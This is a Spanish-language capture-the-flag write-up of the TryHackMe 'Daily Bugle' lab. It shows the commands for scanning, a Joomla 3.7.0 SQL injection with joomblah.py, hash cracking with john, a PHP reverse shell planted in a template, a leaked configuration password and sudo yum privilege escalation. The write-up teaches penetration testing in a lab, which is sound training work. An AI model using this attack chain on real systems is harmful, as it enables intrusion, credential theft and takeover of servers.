










TryHackMe
Hard
Linux
Joomla
SQLi
PHP
sudo yum
Daily Bugle
Joomla 3.7.0 SQLi via joomblah.py; hash crackeable con john; reverse shell via template; escalada con sudo yum.
cat4clysm
Herramientas utilizadas
nmap
wfuzz
joomblah.py
john
netcat
Scanning
root@kali:~$
nmap -sC -sV -p 22,80,3306 10.10.116.241 -oN targetedJoomla 3.7.0 - SQLi
root@kali:~$
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.116.241/FUZZ -t 200
Version Joomla: http://10.10.116.241/administrator/manifests/files/joomla.xml

root@kali:~$
python2 joomblah.py http://10.10.116.241/
Hash obtenido: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
root@kali:~$
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john hash --show
Reverse Shell via Template Editor
Entramos al admin y vamos a Extensions > Templates > Templates. Editamos error.php con reverse shell PHP:
root@kali:~$
cp /usr/share/laudanum/wordpress/templates/php-reverse-shell.php .Accedemos a http://10.10.116.241/templates/beez3/error.php con nc escuchando.


Escalada - yum sudo
En /var/www/html/configuration.php encontramos la clave nv5uz9r3ZEDzVjNu.

El usuario jjameson usa esta contrasena. Con sudo yum escalamos:



Lecciones aprendidas
- Joomla 3.7.0 tiene una SQLi critica explotable con joomblah.py sin necesidad de sqlmap.
- Los archivos de configuracion de CMS contienen contrasenas de base de datos reutilizadas.
- sudo yum en GTFOBins permite escalar privilegios creando una shell interactiva.